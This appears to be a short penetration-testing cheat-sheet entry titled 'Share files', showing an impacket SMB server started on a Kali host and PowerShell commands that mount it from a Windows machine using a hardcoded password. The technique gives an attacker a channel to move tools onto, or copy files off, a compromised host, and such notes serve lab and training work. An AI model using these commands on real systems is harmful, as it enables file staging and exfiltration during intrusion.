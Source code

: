 ## Share files

```powershell
# Kali
impacket-smbserver  -username kali -password P@ssw0rd123 -smb2support share share/

# Windows
$password = ConvertTo-SecureString "P@ssw0rd123" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("kali", $password)
New-PSDrive -name share -Root \\192.168.45.181\share -Credential $cred -PSProvider filesystem
```